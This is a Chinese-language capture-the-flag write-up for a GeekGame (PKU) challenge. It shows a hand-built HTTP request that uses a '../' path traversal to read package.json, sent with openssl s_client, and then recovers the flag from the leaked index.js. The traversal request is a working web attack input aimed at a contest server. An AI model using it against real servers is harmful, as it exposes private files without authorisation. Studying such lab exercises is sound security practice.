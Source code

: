 最开始想到了构造请求逃逸出 data 目录，可惜刚开始不知道 curl 也会遵循 RFC 3986 ，于是搞了很久也没搞出来，中间试着用 netcat 构造，但 netcat 不支持 HTTPS ，以失败告终。

看到提示以后在网上查了查，使用 openssl 可以进行 HTTPS 请求，于是构造了一个这样的请求：

```http
GET /api/../package.json HTTP/1.1
Host: prob11-********.geekgame.pku.edu.cn
Cookie: ******
```

跑一下：

```bash
cat request.txt | openssl s_client -connect prob11-${hidden}.geekgame.pku.edu.cn:443 -ign_eof
```

![](https://vip2.loli.io/2021/11/18/T4yY2AiecPGSzHC.png)

下载下来压缩包以后，在 `index.js` 的末尾有这样一段：

```javascript
module.exports = function start_server(port) {
    if (FLAG0 !== `flag{${0.1 + 0.2}}`) return;
    FLAG2 = null;
    app.listen(port, () => {
        console.log(`server started on :${port}`);
    });
};
```

~~不懂你们 PKU 为什么要把具名函数和箭头函数混着用。~~

然后把 <code>\`flag{${0.1 + 0.2}}\`</code> 丢进 Node 里面跑一下就好了。 

![](https://vip1.loli.io/2021/11/18/CSvMBWO65DdjxpU.png)

每日 Awesome JavaScript (1/1) 。

